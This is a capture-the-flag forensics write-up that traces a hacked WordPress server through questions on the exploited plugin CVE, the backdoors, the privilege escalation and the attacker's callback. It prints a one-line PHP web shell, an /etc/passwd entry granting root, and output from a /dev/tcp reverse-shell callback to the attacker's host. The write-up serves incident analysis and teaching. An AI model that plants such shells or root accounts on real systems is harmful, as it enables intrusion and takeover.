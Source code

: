 ```yaml
---
tags:
  - ctf
  - 2023-tcp1p
  - forensics
  - linux
  - wordpress
layout: ctf
type: problem
ctf: 2023-tcp1p
category: forensics
title: Hacked
points: 275
solved: true
---
```


# Hacked

## Instructions

**Author**: `daffainfo`

I just deployed a website on Linux, but 5 minutes later, suddenly, someone hacked the server, and the attacker managed to gain root access. Can you investigate my server and answer some questions related to this hack?

`nc ctf.tcp1p.com 23678`

## Solution

For this challenge we're provided a gunzipped tar archive of a Linux filesystem. I decompressed the tar archive and used [ratarmount](https://github.com/mxmlnkn/ratarmount) to mount the archive as a local directory without having to extract it. 

```
$ gunzip -d archive.tar.gz
$ ./ratarmount-0.14.0-x86_64.AppImage archive.tar a/
```

### Question 1
```
Q1:
Question: What is the hostname of the server?
Format: example-hostname
```

Check `/etc/hostname` for the hostname.

```
$ cat etc/hostname 
forensic-tcp1p
```

```
Answer: forensic-tcp1p
```

### Question 2

```
Q2:
Question: What applications does the system administrator deploy on this server? Also include the application version
Format: Example:13.37
```

I approached this by checking the apt history at `/var/log/apt/history.log` and seeing that webserver packages such as Apache, PHP, and MySQL were being installed. From here, I checked `/var/www/html` and saw that Wordpress was installed. Checking `wp-admin/about.php` gave me the installed Wordpress version.

```
Answer: Wordpress:6.3.1
```

### Question 3


```
Q3:
Question: How many plugins are installed on this WordPress?
Format: 2
```

I checked the Wordpress plugins folder to see that 4 plugins are installed.

```
$ ls -ln wp-content/plugins/
total 3
drwxrwxrwx 1 33 33  0 Oct  4 01:41 elementor
drwxrwxrwx 1 33 33  0 Oct  3 23:33 import-xml-feed
-rwxrwxrwx 1 33 33 28 Jun  5  2014 index.php
drwxrwxrwx 1 33 33  0 Oct  4 01:59 jetpack
drwxrwxrwx 1 33 33  0 Oct  4 01:41 woocommerce
```

```
Answer: 4
```


### Question 4

```
Q4:
Question: Can you give me the CVE ID that the attacker used to attack this server?
Format: CVE-2020-13337
```

Checking for uploads, I found a a suspicious looking PHP file. Looking up CVEs for the `import-xml-feed` plugin shows that this is related to a CVE: https://nvd.nist.gov/vuln/detail/CVE-2023-4521 

```
$ find . -type d | grep uploads | xargs ls
./wp-content/plugins/import-xml-feed/uploads:
169227090864de013cac47b.php

$ cat wp-content/plugins/import-xml-feed/uploads/169227090864de013cac47b.php 
<?php system($_GET['cmd']);?>
```

```
Answer: CVE-2023-4521
```

### Question 5


```
Q5:
Question: By utilizing CVE-2023-4521, the attacker seems to have placed another PHP backdoor on this server. What is the full location where the attacker put the backdoor? (It looks like there is something suspicious in the WordPress plugins)
Format: /path/to/file
```

I used https://github.com/tstillz/webshell-scan to scan for additional webshells.

```
$ ./webscan_linux -dir tcp1p2023/hacked/a/var/www/html/wordpress/wp-content/plugins/
```

```
{"filePath":"tcp1p2023/hacked/a/var/www/html/wordpress/wp-content/plugins/jetpack/class.jetpacks.php","size":172,"md5":"597a702737863ed3b3ecd034bf3bc2f7","timestamps":{"created":"1970-01-01 00:00:00","modified":"2023-10-04 08:59:23","accessed":"1970-01-01 00:00:00"},"matches":{"eval(":1}}
```

```
Answer: /var/www/html/wordpress/wp-content/plugins/jetpack/class.jetpacks.php
```


### Question 6


```
Q6:
Question: Can you provide the file that the attacker used for privilege escalation?
Format: /path/to/file

```

Investigating `/var/log/auth.log` shows that the permissions of `/etc/passwd` were modified during installation. The attacker used this to edit their UID and GID to 0 (root). 

```
$ less ./var/log/auth.log

2023-10-04T07:55:29.579415+00:00 forensic-tcp1p sudo:     root : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=/usr/bin/chmod 666 /etc/passwd

```

```
/etc/passwd

userssss::0:0::/root:/bin/bash
```

```
Answer: /etc/passwd
```

### Question 7

```
Q7:
Question: After gaining root access, the attacker insert another dangerous file? Please provide us with the full location/path of that file.
Format: /path/to/file
```

I searched for files that were modified after the `/etc/passwd` modification. The `/root/.bashrc` file had a suspicious entry.

```
$ find . -newermt "2023-10-04 02:03:00" -type f 
./etc/passwd
./root/.bashrc
./root/READ_THIS_ADMIN_HAHAHA.txt
./var/lib/landscape/landscape-sysinfo.cache
./var/lib/systemd/timers/stamp-phpsessionclean.timer
./var/lib/systemd/timesync/clock
./var/log/apache2/access.log
./var/log/apache2/error.log
./var/log/auth.log
./var/log/btmp
./var/log/droplet-agent.update.log
./var/log/journal/137ae57915b64621a0a322a4c14d2d56/system.journal
./var/log/lastlog
./var/log/syslog
./var/log/wtmp
```

```
Answer: /root/.bashrc
```


### Question 8

```
Q8:
Question: Based on the file planted by the attacker, can you give me the IP and port of the server used by the attacker?
Format: 160.32.183.32:1337
```

Executing the suspicious bash in the `/root/.bashrc` file in an isolated sandbox without network connectivity gives us the host that it attempts to reach out to.

```
main.bash: connect: Network is unreachable
main.bash: line 1: /dev/tcp/159.223.46.222/9999: Network is unreachable
```

```
Answer: 159.223.46.222:9999
```


### Flag

```
Congrats! Flag: TCP1P{y0u_f0und_m3_H4h4hHH44h44_B18DeF73F73FFe}****
```
